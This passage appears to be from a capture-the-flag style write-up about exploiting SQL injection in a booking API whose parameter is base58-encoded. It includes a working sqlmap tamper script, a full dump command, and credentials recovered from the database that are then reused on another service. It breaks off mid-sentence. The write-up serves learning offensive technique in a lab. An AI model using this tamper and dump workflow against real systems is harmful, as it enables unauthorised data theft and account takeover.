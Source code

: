 ![](gitbook/cybersecurity/images/Pasted%20image%2020250702163858.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250702163911.png)

On `3` we get a bad request, which means that SQLI is possible, we can automate the process with `sqlmap` but we need a tamper, a tamper is a little Python hook that sits between the tool and the target, grabbing every injection payload sqlmap generates and transforming it before it’s sent. we need it thanks to the `base58` format, let's use this script:

```python
from lib.core.enums import PRIORITY
import base58

__priority__ = PRIORITY.HIGHEST

def tamper(payload, **kwargs):
    """
    Encode the payload with base58 :)
    """
    if payload:
        prefixed_payload = f"booking_id:{payload}"
        encoded_payload = base58.b58encode(prefixed_payload.encode()).decode()
        return encoded_payload
    return payload
```

Now, we need to create a tamper.py file with those contents and an `__init__.py` file too, once we do it, we can send the following `sqlmap` command:

```bash
sqlmap -u "http://IP/api/booking-info?booking_key=" -p "booking_key" --tamper=PATH TO TAMPER.PY/tamper.py --dbms=sqlite --technique=U --string="not found" --random-agent --level=5 --risk=3 --dump -batch
```

Make sure you got `base58` on pip before using the command:

```
pip install base58
```

We can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250702164805.png)

There are some credentials:

```
pdenton:4321chameleon
```

We can use them on the 4346 port web application:

![](gitbook/cybersecurity/images/Pasted%20image%2020250702165049.png)

There's a message from `SweetCharity` to our user, we can see this on the source code:
